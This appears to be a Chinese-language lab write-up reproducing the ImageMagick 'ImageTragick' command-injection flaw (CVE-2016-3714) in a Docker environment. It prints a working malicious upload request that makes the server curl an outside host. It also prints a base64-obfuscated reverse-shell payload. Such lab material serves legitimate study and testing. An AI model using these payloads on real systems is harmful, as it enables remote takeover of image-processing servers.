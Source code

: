 # ImageMagick Imagetragick 命令注入漏洞（CVE-2016–3714）

ImageMagick是一款使用量很广的图片处理程序，很多厂商都调用了这个程序进行图片处理，包括图片的伸缩、切割、水印、格式转换等等。

在ImageMagick版本6.9.3-9之前，对文件名传递给委托的命令过滤不足，导致在转换多种文件格式时存在远程代码执行漏洞。这个漏洞也被叫做“imagetragick”。

参考链接：

- <https://imagetragick.com>
- <https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html>
- <https://github.com/ImageTragick/PoCs>

## 漏洞环境

执行如下命令启动一个包含了Imagemagick 6.9.2-10的PHP服务器：

```
docker compose up -d
```

## 漏洞复现

访问`http://your-ip:8080/`即可查看到一个上传组件。

发送如下数据包：

```
POST / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Length: 328

------WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Disposition: form-data; name="file_upload"; filename="1.gif"
Content-Type: image/png

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "www.leavesongs.com:8889)'
pop graphic-context
------WebKitFormBoundarymdcbmdQR1sDse9Et--
```

可见，`www.leavesongs.com:8889`已经接收到http请求，说明curl命令执行成功：

![](2.png)

反弹shell POC：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzQ1LjMyLjQzLjQ5Lzg4ODkgMD4mMQ== | base64 -d | bash`"||id " )'
pop graphic-context
```

![](3.png)
